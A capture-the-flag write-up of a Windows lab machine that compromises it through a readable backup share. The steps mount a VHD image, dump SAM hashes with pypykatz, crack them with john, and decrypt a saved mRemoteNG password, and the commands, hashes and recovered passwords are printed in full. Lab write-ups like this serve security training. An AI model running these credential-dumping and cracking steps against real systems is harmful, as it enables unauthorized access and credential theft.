 ## Info
### Credential
 User | Password       | Service | Note
------|----------------|---------|-------
L4mpje|bureaulampje    |         |
Admin |thXLHM96BeKL0ER2|


### SMB
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

## Path
### User
1. By trying, I found `guest` user exist on SMB.
```
$ rpcclient $ip
Enter WORKGROUP\ice1187's password: 
Bad SMB2 signature for message
[0000] 00 00 00 00 00 00 00 00   00 00 00 00 00 00 00 00   ........ ........
[0000] F0 3F A0 7B F9 A8 CE 2C   D4 41 E4 18 25 B0 CE 6B   .?.{..., .A..%..k
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
$ rpcclient -U guest $ip
Enter WORKGROUP\guest's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
2. There are some `.vhd` files in the share, but it is too large to be downloaded. So I mount the share, than mount the `.vhd` file.
```
$ sudo mount -t cifs "//$ip/Backups/" ./mnt/Backups
$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ../../../../vhd
```
3. Get `SAM` and `SYSTEM` registry hives, then dump the credentials using `pypykatz`.
```
$ sudo cp vhd/Windows/System32/config/SAM ..
$ sudo cp vhd/Windows/System32/config/SYSTEM ..
$ pypykatz registry --sam SAM SYSTEM
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 8b56b2cb5033d8e2e289c26f8939a25f
============== SAM hive secrets ==============
HBoot Key: 335e6c10b1dce6433e9ef82d30f49d3a3463f8e0097de6f0d90d07b234f03d52
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
4. Crack the NTLM hash and get L4mpje's password, then login via SSH and get the user flag.
```
$ sudo john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt creds.ntlm --format=nt
```

### Root
1. Found `mRemoteNG` is installed by looking into `\Program Files (x86)`, and get the encrypted password of the app at `\Users\L4mpje\AppData\Roaming\mRemoteNG`. ([ref](https://vk9-sec.com/exploiting-mremoteng/))
2. Decrypt the password with [mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt).
```
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7l
WWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
3. Login as admin with the password and get the root flag.

